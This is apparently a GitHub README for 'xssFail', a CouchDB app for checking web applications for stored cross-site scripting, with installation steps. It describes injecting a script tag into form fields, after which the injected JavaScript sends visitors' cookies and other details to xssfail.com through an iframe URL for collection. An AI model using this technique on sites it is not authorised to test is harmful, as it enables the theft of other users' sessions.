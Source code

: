 ## Who is this project for?

If you know about [xss(Cross-site scripting)](http://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, and want to check whether you web app is secure enough, this project is for YOU!
There are 2 options:
1. Install standalone app to avoid losing sensitive data.
2. Use online app - [xssFail.com](http://xssfail.com)

## How does it work?

1. You inject script: <script src="..."></script>
into target text field and save it. Any text field could be used (Product name, User name, Login, Address etc.). Let's say you use "Product" field.
2. UserA opens page with list of products with product you've injected.
3. If html engine doesn't encode strings UserA will get javascript executed.
4. Injected javascript code writes (document.write) the following tag: '<iframe src="http://xssfail.com/form?param1=&param2=&paramN=" />' where param1, param2, paramN - all information about UserA (including browser cookies, site url etc.)
5. After iframe is loaded it executes script which saves info from URL (param1, param2, param3) into CouchDb database.
6. You can go to xssfail.com and search for "WINNERS".

## How to install standalone app?

### Before you start

Before you start using this app, it's necessary to:
1. [Install CouchDB](http://wiki.apache.org/couchdb/Installation) v.1.1.x or greater. More info about couchDB [here](http://wiki.apache.org/couchdb/).
2. [Install CouchApp](http://couchapp.org/page/installing). More info about couchApp [here](http://couchapp.org/page/index).

CouchApps are web applications which can be served directly from [CouchDB](http://couchdb.apache.org).
This gives them the nice property of replicating just like any other data stored in CouchDB.
They are also simple to write as they can use the built-in jQuery libraries and plugins that ship with CouchDB.

### Deploying this app

Assuming you just cloned this app from git,
and you have changed into the app directory in your terminal, you want to push it to your CouchDB with the CouchApp command line tool, like this:

    couchapp push . http://name:password@localhost:5984/xss

If you don't have a password on your CouchDB (admin party) you can do it like this (but it's a bad, idea, set a password):

    couchapp push . http://localhost:5984/xss

If you get sick of typing the URL, you should setup a `.couchapprc` file in the root of your directory.
Remember not to check this into version control as it could have passwords in it.

The `.couchapprc` file should have contents like this:

    {
        "default" : {
          "db" : "http://localhost:5984/xss"
        }
      }
    }

Now that you have the `.couchapprc` file set up, you can push your app to the CouchDB as simply as:

    couchapp push

This pushes to the `default` as specified.

go to [http://localhost:5984/xss/_design/api/_views/index](http://localhost:5984/xss/_design/api/_views/index) to open default UI page
go to [http://localhost:5984/_utils](http://localhost:5984/_utils) to open database UI manager - [http://wiki.apache.org/couchdb/Getting_started_with_Futon](Futon)

